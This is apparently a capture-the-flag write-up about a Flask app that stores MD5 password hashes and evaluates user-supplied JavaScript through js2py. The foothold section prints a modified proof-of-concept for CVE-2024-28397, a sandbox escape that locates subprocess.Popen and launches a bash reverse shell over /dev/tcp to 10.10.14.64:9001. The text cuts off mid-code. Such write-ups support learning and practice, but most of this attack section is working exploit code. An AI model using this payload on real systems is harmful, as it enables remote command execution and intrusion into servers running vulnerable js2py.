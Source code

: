 <img width="2283" height="1470" alt="2025-08-17 112740" src="https://github.com/user-attachments/assets/d1cb838e-0b67-42d2-abb0-43cf53d25784" />

The Flask app is using SQLite via SQLAlchemy.
We notice that upon registration, the password is stored with an MD5 hash, which is not safe!

And the run_code function is using js2py

```bash
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

## Foothold
Searching for an exploit in js2py, I find CVE-2024-28397.

>CVE-2024-28397 is sandbox escape in js2py (<=0.74) which is a popular python package that can evaluate javascript code inside a python interpreter. The vulnerability allows for an attacker to obtain a reference to a python object in the js2py environment enabling them


We can find a PoC here:
https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape

I will modify the code to run it in our sandbox

```JavaScript
var hacked = Object.getOwnPropertyNames({});
var bymarve = hacked.__getattribute__;
var n11 = bymarve("__getattribute__");
var obj = n11("__class__").__base__;

function findPopen(o) {
    var subs = o.__subclasses__();
    for (var i in subs) {
        try {
            var item = subs[i];
            // solo chequea si tiene atributos de módulo y nombre
            if (item && item.__module__ && item.__name__) {
                if (item.__module__ == "subprocess" && item.__name__ == "Popen") {
                    return item;
                }
            }
            if (item && item.__name__ != "type") {
                var result = findPopen(item);
                if (result) return result;
            }
        } catch(e) {
            // ignorar errores de acceso
            continue;
        }
    }
    return null;
}

var Popen = findPopen(obj);
if (Popen) {
    var cmd = "bash -c 'exec 5<>/dev/tcp/10.10.14.64/9001; cat <&5 | while read line; do $line 2>&5 >&5; done'";
    var out = Popen(cmd, -1, null, -1, -1, -1, null, null, true).communicate();
    console.log(out);
} else {
```